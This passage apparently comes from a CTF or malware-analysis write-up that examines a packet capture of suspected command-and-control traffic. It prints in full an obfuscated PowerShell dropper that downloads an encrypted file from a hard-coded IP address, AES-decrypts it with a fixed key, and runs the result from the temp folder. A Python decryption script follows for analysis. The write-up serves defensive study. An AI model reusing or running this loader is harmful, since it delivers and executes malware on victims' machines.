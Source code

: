 Two octet-streams, one html file with a different name, and the rest all have the same name, giving strooong c2 energy. First things first, let’s look at the executables, we can export them both by using the ‘save’ option in the Export HTTP objects window. 

********vn84.ps1:********

wohooo a powershell encrypted script. Alright, to quickly parse it, I use a Linux VM that has pwsh installed. 

```python
.("{1}{0}{2}" -f'T','Set-i','em') ('vAriA'+'ble'+':q'+'L'+'z0so')  ( [tYpe]("{0}{1}{2}{3}" -F'SySTEM.i','o.Fi','lE','mode')) ;  &("{0}{2}{1}" -f'set-Vari','E','ABL') l60Yu3  ( [tYPe]("{7}{0}{5}{4}{3}{1}{2}{6}"-F'm.','ph','Y.ae','A','TY.crypTOgR','SeCuRi','S','sYSte'));  .("{0}{2}{1}{3}" -f 'Set-V','i','AR','aBle')  BI34  (  [TyPE]("{4}{7}{0}{1}{3}{2}{8}{5}{10}{6}{9}" -f 'TEm.secU','R','Y.CrY','IT','s','Y.','D','yS','pTogrAPH','E','CrypTOSTReAmmo'));  ${U`Rl} = ("{0}{4}{1}{5}{8}{6}{2}{7}{9}{3}"-f 'htt','4f0','53-41ab-938','d8e51','p://64.226.84.200/9497','8','58','a-ae1bd8','-','6')
${P`TF} = "$env:temp\94974f08-5853-41ab-938a-ae1bd86d8e51"
.("{2}{1}{3}{0}"-f'ule','M','Import-','od') ("{2}{0}{3}{1}"-f 'r','fer','BitsT','ans')
.("{4}{5}{3}{1}{2}{0}"-f'r','-BitsT','ransfe','t','S','tar') -Source ${u`Rl} -Destination ${p`Tf}
${Fs} = &("{1}{0}{2}" -f 'w-Ob','Ne','ject') ("{1}{2}{0}"-f 'eam','IO.','FileStr')(${p`Tf},  ( &("{3}{1}{0}{2}" -f'lDIt','hi','eM','c')  ('VAria'+'blE'+':Q'+'L'+'z0sO')).VALue::"oP`eN")
${MS} = .("{3}{1}{0}{2}"-f'c','je','t','New-Ob') ("{5}{3}{0}{2}{4}{1}" -f'O.Memor','eam','y','stem.I','Str','Sy');
${a`es} =   (&('GI')  VARiaBLe:l60Yu3).VAluE::("{1}{0}" -f'reate','C').Invoke()
${a`Es}."KE`Y`sIZE" = 128
${K`EY} = [byte[]] (0,1,1,0,0,1,1,0,0,1,1,0,1,1,0,0)
${iv} = [byte[]] (0,1,1,0,0,0,0,1,0,1,1,0,0,1,1,1)
${a`ES}."K`EY" = ${K`EY}
${A`es}."i`V" = ${i`V}
${cS} = .("{1}{0}{2}"-f'e','N','w-Object') ("{4}{6}{2}{9}{1}{10}{0}{5}{8}{3}{7}" -f 'phy.Crypto','ptogr','ecuri','rea','Syste','S','m.S','m','t','ty.Cry','a')(${m`S}, ${a`Es}.("{0}{3}{2}{1}" -f'Cre','or','pt','ateDecry').Invoke(),   (&("{1}{2}{0}"-f 'ARIaBLE','Ge','T-V')  bI34  -VaLue )::"W`RItE");
${f`s}.("{1}{0}"-f 'To','Copy').Invoke(${Cs})
${d`ecD} = ${M`s}.("{0}{1}{2}"-f'T','oAr','ray').Invoke()
${C`S}.("{1}{0}"-f 'te','Wri').Invoke(${d`ECD}, 0, ${d`ECd}."LENg`TH");
${D`eCd} | .("{2}{3}{1}{0}" -f'ent','t-Cont','S','e') -Path "$env:temp\tmp7102591.exe" -Encoding ("{1}{0}"-f 'yte','B')
& "$env:temp\tmp7102591.exe"
```

 

I’m not going to go deep into the deobfuscation, because it seems pretty obvious. The script calls for downloading the file ‘**94974f08-5853-41ab-938a-ae1bd86d8e51**’, which is the second executable file in the pcap. Then, it sets a Key and IV and decrypts the file into tmp7102591.exe. Our first task is to decrypt this specific file to be able to reverse it, and get more information. The Key and IV are not obfuscated, so we can quickly decrypt it in Python:

```python
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

key = bytes([0,1,1,0,0,1,1,0,0,1,1,0,1,1,0,0])
iv = bytes([0,1,1,0,0,0,0,1,0,1,1,0,0,1,1,1])

with open('94974f08-5853-41ab-938a-ae1bd86d8e51','rb') as f:
	enc_data = f.read()

cipher = AES.new(key,AES.MODE_CBC,iv)
dec = unpad(cipher.decrypt(enc_data),16)

with open('tmp7102591.exe','wb') as of:
	of.write(dec)
```
